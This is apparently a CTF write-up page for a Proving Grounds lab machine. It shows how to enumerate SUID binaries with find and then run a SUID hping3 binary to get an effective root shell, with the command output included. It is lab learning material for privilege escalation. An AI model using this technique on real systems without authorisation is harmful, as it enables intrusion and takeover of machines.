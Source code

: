 ```yaml
---
layout: default
title: hping3
parent: SUID
nav_order: 2
---
```


# hping3 (Suid)

---

## SUID Permissions

```bash
www-data@cute:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/mount
/usr/sbin/hping3
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device

```

## Exploit hping3 SUID

![suid](../../../../assets/images/ctfs/proving_grounds/bbscute/suid.png)

Simply executing the _hping3_ binary gives us a root shell.

```bash
www-data@cute:/$ /usr/sbin/hping3
hping3> id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

```
